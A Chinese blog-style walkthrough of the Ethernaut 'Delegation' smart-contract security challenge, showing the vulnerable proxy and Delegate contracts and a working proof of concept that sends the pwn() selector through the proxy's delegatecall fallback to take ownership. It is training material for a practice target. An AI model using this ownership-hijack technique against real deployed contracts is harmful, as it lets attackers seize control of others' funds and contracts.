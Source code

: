 ```yaml
---
title: 'ethernaut.openzeppelin合约安全闯关-5'
date: 2022-12-9 20:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'








---
```


<!-- more -->

::: tip

目前来看最全面的智能合约安全靶场:+1:

https://ethernaut.openzeppelin.com/ 

浏览器控制台 help()指令

![help](./assets/1670479273112.png)

:::

#### 第六关Delegate  思路与POC

##### 目标: 获取Delegation合约的所有权

#### 先看代码:

##### 这里很明显是在测试你懂不懂的底层函数delegatecall的用途

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {

  address public owner;

  constructor(address _owner) {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}
//此合约作为Delegate合约的代理,
//外部调用通过发送交易调用此合约的fallback函数调用具体声明逻辑的合约(此处为Delegate合约)
contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

poc思路:point_right:：在Delegation合约中并没有更改owner变量的逻辑,所以很明显你需要代理调用Delegate合约中的pwn函数

```solidity
 //生成call data
  function getData() public pure returns (bytes4 ) {
        return bytes4(keccak256("pwn()"));
    }
```

```js
/*
from:你的钱包地址
to:Delegation合约实例地址
data:字节码格式的函数名称 
*/
await sendTransaction({from: '0x0e21d35681E679C33dD49731935FB81F1aee8C05' , to:'0x9a47F3A18F013726705Ca844e15FDb5C5645A684',data:'0xdd365b8b' })
await contract.owner()
'0x0e21d35681E679C33dD49731935FB81F1aee8C05'
```

:ok_hand:

![info](./assets/1670591862405.png)
